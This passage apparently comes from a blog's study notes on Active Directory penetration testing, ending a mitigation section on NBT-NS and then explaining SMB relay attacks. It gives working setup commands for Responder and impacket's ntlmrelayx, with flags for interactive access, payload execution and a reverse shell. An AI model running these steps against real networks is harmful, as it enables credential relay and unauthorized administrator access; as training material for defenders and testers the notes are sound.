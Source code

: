 		Disable NBT-NS: navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and SELECT "Disable NetBIOS over TCP/IP" 

- If not possible, Require Network Access Control
- Require Strong, Uncommon Passwords


## SMB-Relay-Attacks 

---

### What is SMB Relay? 

Instead of **cracking hashes** gathered with Responder, we can instead **relay those hashes** to specific **machines and potentially gain access!**

<br>

### Requirements

- SMB signing must be **DISABLED** on the Target Machine (Bypass Authenticity)
- Relayed user Credentials must be **ADMIN** on the Machine 

<br>
<br>

![](https://auti.dev/images/blog/active-dir/SMB-Relay-0.png)

### Setup

- Make the changes in

	*/usr/share/Responder.conf*

		SMB = Off
		HTTP = Off

- Fire Up Responder

		responder -I {IP/tun0/eth0/wlan0} -rdwv

- Setup Relay

		python3 /opt/impacket/examples ntlmrelayx.py -tf targets.txt -smb2support
		
		-i for interactive
		-e <filename> for exec (probably payload)
		-c for exec command (like Reverse Shell)

- In Windows 10 E browse at

		\\{IP}


![](https://auti.dev/images/blog/active-dir/SMB-Relay.png)

<br>
